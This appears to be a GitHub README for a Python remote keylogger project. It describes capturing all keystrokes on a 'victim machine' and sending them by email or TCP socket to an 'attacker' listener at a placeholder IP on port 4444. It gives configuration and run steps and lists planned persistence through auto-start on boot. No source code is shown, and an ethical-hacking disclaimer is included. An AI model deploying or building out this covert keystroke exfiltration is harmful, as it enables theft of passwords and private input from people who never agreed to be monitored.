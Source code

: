 🕵️‍♂️ Remote Keylogger Project (Python)

A Python-based remote keylogger tool designed for educational and ethical use only. It captures keyboard input and sends it either via email or to a remote TCP socket server for analysis.

---------------------------------------------------

🚀 Features

- 🎯 Captures all keystrokes (including special keys)
- 📤 Sends logs:
  - Via SMTP email
  - Over TCP socket to a remote listener
- 📅 Automatic email reporting every 5 minutes (configurable)
- 🧵 Threaded operation for smooth logging and reporting
- 💻 Cross-platform support (Windows/Linux)

---------------------------------------------------

⚙️ Installation

✅ Requirements
- Python 3.6 or above
- Libraries:
  - pynput
  - schedule

📦 Install Dependencies
pip install pynput schedule

---------------------------------------------------

🧠 Usage

📧 Email Keylogger

1. Open keylogger_email.py
2. Configure:
   EMAIL_ADDRESS = "your_email@gmail.com"
   EMAIL_PASSWORD = "your_app_password"
   TO_ADDRESS = "recipient@example.com"

   ⚠️ Use an App Password if 2FA is enabled on Gmail.

3. Run:
   python keylogger_email.py

---------------------------------------------------

🌐 Socket Keylogger

On Attacker (Listener) Machine:
python keylogger_server.py

On Victim Machine:
1. Open keylogger_client.py
2. Set the IP:
   SERVER_IP = "attacker-ip-address"
   PORT = 4444

3. Run:
   python keylogger_client.py

---------------------------------------------------

🔐 Ethical Disclaimer

This tool is intended strictly for educational, ethical hacking, and penetration testing purposes with proper authorization. Unauthorized use of this tool is illegal and unethical.

---------------------------------------------------

🔮 Future Improvements

- AES encrypted keylogs
- GUI dashboard to monitor logs
- Log persistence & auto-start on boot
- Log upload to cloud storage

---------------------------------------------------

📁 Project Structure

remote_keylogger_project/
├── keylogger_email.py       # Sends keylogs via email
├── keylogger_client.py      # Sends keylogs over socket
├── keylogger_server.py      # Receives and displays keylogs
└── README.txt               # Project documentation

---------------------------------------------------

🧑‍💻 Author

Sahil Koli  
Penetration Tester | Ethical Hacker  
GitHub: https://github.com/jokersk551

---------------------------------------------------

📬 Contact

Email: sahilkoliethical@gmail.com  
Instagram: 
